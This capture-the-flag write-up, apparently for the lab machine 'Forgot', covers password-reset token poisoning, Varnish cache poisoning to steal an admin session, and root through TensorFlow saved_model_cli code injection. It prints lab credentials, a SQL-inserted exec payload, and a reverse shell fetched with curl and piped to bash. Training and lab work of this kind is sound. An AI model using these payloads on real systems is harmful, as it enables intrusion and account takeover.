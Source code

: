 # Forgot

---

## Enumeration

- nmap:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug/2.1.2 Python/3.8.10
```

- Forgot password poisoning: https://book.hacktricks.xyz/pentesting-web/reset-password, https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

- username: 'robert-dev-14522' in source:

```zsh
curl $IP | grep by
```

- To steal the reset password token, I started nc listener and intercepted the request, changed the host to myIP:9000

```zsh
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.249.191] 34506
GET /reset?token=QzQ+7x4zUoJwaGJxYa6aAQdWG8pIlUmaneaCT/vmhYYzMG+oW5leRAkYD1qcbPI3gF6+/PbL6FzKZtCTYtDPJw== HTTP/1.1
Host: 10.10.16.23:9000
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

- Now head to /reset and rest the password using this token

---

## Foothold

- Found disabled link `/admin_tickets`, Had no access to it initially but changing the Auth header username to be admin with same password got me into this page

### UPDATE!!!

- Coming back to this box after a while, the `Authorization: Basic <b64 creds>` path has been patched. So I went back to try the things I tried at first
- After some trial and error I went to `/escalate` page and I tried to steal admin's session cookies, but the word `http` is filtered, I'm guessing it's a `if 'http' in link.lower()` something in Python check. can't seem to be able to bypass it
- I started reading about these cookies and how it handles the session of a logged in user, I still don't fully understand what's happening here, because when I visit a non-existing page on the website, the server sends `Set-Cookie` header setting the session cookie to the same session I had, even if I'm not logged in. I tried restarting the box to see if this behavior is normal and it is!
- I then started googling some response headers especially that `X-Varnish` header and It's some sort of caching technology, and It might be vulnerable to cache poisoning based on my findings
- After some digging, I think the way it uses cache is by caching the response itself, that's why when I tried a link that does not exist, I got the `Set-Cookie` header that was set to the first person who tried accessing this page, and since the admin did, the server set their cookie to the admin session cookie, that's why when I access this page, the server sends the cached response to me which contains `Set-Cookie: session=<admin_session>`
- I modified the ticket's link to `http://10.10.11.188/static/images/test.png` in the `escalate` post request, and waited until the admin visited this page. I then used `curl` on it and I got a session cookie, adding it to my browser cookies and now I can read `/admin_tickets` page.

```zsh
curl -vvv http://10.10.11.188/static/images/test.png

*   Trying 10.10.11.188:80...
* Connected to 10.10.11.188 (10.10.11.188) port 80 (#0)
> GET /static/images/test.png HTTP/1.1
> Host: 10.10.11.188
> User-Agent: curl/7.86.0
> Accept: */*
> 

...

< Set-Cookie: session=1a3c4cd0-25dc-4596-a15e-6c23d14c570f; HttpOnly; Path=/

...

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
* Connection #0 to host 10.10.11.188 left intact
```

- Creds: `diego:dCb#1!x0%gjq`
- Copying these creds from the rendered web page did not work, because of this capitalization, and it capitalizes the 'G' after '%', so copying it from the page source was correct and now I'm as user `Diego` and got `user.txt`
- I was curious what was going on on the `/escalate` filters, here's the functionality, and as I expected, it was a silly python check `if 'http' in link.lower():`

```python
@app.route('/escalate', methods=['GET','POST'])
@login_required
def escalate():
        if request.method=='GET':
                conn.reconnect()
                c = conn.cursor()
                c.execute('select * from tickets')
                r = c.fetchall()
                return render_template('escalate.html',tickets=r)
        else:
                to = request.form.get('to')
                link = request.form.get('link')
                issue = request.form.get('issue')
                reason = request.form.get('reason')
                if 'http' in link.lower():
                        ip = link.split('/')[2]
                        tun_ip = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
                        if ip!=tun_ip:
                                return 'This request can\'t be reviewed since the issue link is flagged'
                conn.reconnect()
                c = conn.cursor()
                c.execute('insert into escalate values(%s,%s,%s,%s)',(to,issue,link,reason,))
                conn.commit()
                return 'Escalation form submitted to Admin and will be reviewed soon!'
```

- Also got admin creds from `bot.py`: `admin:dCvbgFh345_368352c@!`

---

## Privilege Escalation

- I found a path to PE right away and I didn't have to run linpeas or anything

```bash
diego@forgot:~$ sudo -l
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
```

- Reading through this, It's using tensorflow `saved_model_cli` and it's vulnerable to code injection, found [this](https://github.com/advisories/GHSA-75c9-jrh4-79mc) github article
- To test this as a poc, I had the creds to the database from `app.py` and inserted a row to `escalate` table, since it's the injectable field is `reason` in that table in:

```python
# Grab links
conn = mysql.connector.connect(host='localhost',database='app',user='diego',password='dCb#1!x0%gjq')
cursor = conn.cursor()
cursor.execute('select reason from escalate')
```

```sql
INSERT INTO escalate VALUES ('test','test','test','test=exec("""import os\nos.system("curl 10.10.16.2")""")');
```

- And I got a hit back.

```bash
diego@forgot:/opt/security$ sudo -u root /opt/security/ml_security.py 
2022-12-24 09:00:11.986998: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2022-12-24 09:00:11.987093: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
```

```bash
nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.188] 38236
GET / HTTP/1.1
Host: 10.10.16.2
User-Agent: curl/7.68.0
Accept: */*
```

- Now, since I have code execution as root, I can do anything really, I decided to get a reverse shell, 1337
- I prepared a reverse shell paylaod and started an HTTP server, then abused the code injection vulnerability to get this payload and pipe it into bash

```bash
┌──(kali㉿kali)-[~]
└─$ cat game.sh     
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.2/1337 0>&1
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Code execution:

```sql
INSERT INTO escalate VALUES ('test','test','test', 'test=exec("""import os\nos.system("curl 10.10.16.2/game.sh | bash")""")');
```

- Revshell:

```bash
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [24/Dec/2022 04:18:04] "GET /game.sh HTTP/1.1" 200 -

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.188] 46362
root@forgot:/dev/shm# which python
which python
root@forgot:/dev/shm# which python3
which python3
/usr/bin/python3
root@forgot:/dev/shm# python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
root@forgot:/dev/shm# ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337

root@forgot:/dev/shm# stty rows 39 cols 157
root@forgot:/dev/shm# export TERM=xterm-256color
root@forgot:/dev/shm# 

```

---
